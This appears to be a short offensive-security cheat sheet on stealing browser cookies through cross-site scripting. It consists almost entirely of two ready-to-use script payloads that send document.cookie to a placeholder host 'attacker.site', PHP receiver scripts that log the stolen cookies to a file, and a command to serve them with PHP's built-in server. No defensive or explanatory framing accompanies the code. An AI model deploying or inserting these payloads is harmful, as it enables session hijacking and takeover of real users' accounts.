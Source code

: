# Cookie Stealing via XSS

## Ex (1): 
```js
// One Liner: <script>new Image().src="http://attacker.site/log.php?q="+document.cookie</script>
<script>
  var i = new Image();
  i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

## Attacker Controlled Site (1) (`log.php`):
```php
<?php
  $filename="/tmp/log.txt";
  $fp=fopen($filename, 'a');
  $cookie=$_GET['q'];

  fwrite($fp, $cookie);
  fclose($fp);
?>
```

-----

## Ex (2):
```js
<script>location.href='http://attacker.site/index.php?q='+document.cookie</script>
```


## Attacker Controlled Site (2) (`index.php`):
```php
<?php
  $cookie = isset($_GET['q']) ? $_GET['q']:"";
?>
```

```shell
$ php -S IP:8008
```
